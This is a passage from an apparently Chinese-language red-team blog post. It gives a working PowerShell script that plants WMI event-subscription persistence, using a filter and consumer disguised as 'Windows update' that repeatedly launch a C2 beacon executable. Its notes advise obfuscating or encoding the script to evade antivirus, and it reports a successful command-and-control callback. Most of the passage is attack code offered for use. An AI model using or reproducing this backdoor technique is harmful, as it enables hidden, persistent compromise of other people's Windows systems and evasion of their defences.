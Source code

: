 ```
$TimerArgs = @`{`
 IntervalBetweenEvents = ([UInt32] 2000) # 30 min
 SkipIfPassed = $False
 TimerId ="Trigger" `}`;


$EventFilterArgs = @`{`
EventNamespace = 'root/cimv2'
Name = "Windows update trigger"
Query = "SELECT * FROM __TimerEvent WHERE TimerID = 'Trigger'"
QueryLanguage = 'WQL' `}`;


$Filter = Set-WmiInstance -Namespace root/subscription -Class __EventFilter -Arguments $EventFilterArgs;
$FinalPayload = 'cmd.exe /c c:\beacon.exe'

$CommandLineConsumerArgs = @`{`
 Name = "Windows update consumer"
 CommandLineTemplate = $FinalPayload`}`;


$Consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments $CommandLineConsumerArgs;


$FilterToConsumerArgs = @`{`
 Filter = $Filter
 Consumer = $Consumer`}`;


$FilterToConsumerBinding = Set-WmiInstance -Namespace root/subscription -Class __FilterToConsumerBinding -Arguments $FilterToConsumerArgs;
```

> ***注意**：上述脚本出现的WQL语句，也可以指定WITHIN来指定间隔时间，以秒为单位，但是需提前指定TimerID，可以自行修改PS1脚本进行完善，将添加后门、删除后门的操作集成到一个脚本内完成，同时免杀的操作可以针对性的进行混淆或编码的操作。*

```
SELECT * FROM __TimerEvent WITHIN 10 WHERE TimerID = 'Trigger'
```

**上线C2**

> ***注意**：将上述Powershell脚本替换其执行的Payload进行本地执行，另存为ps1格式并修改其轮询的时间。若想做成远程下载格式，则需要将Powershell做好免杀的操作。*

运行ps1脚本后成功上线

[![](https://p4.ssl.qhimg.com/t0142b08e7d17543e3c.png)](https://p4.ssl.qhimg.com/t0142b08e7d17543e3c.png)

**<a class="reference-link" name="Mof%E6%96%87%E4%BB%B6%E6%B7%BB%E5%8A%A0%E4%BA%8B%E4%BB%B6"></a>Mof文件添加事件**
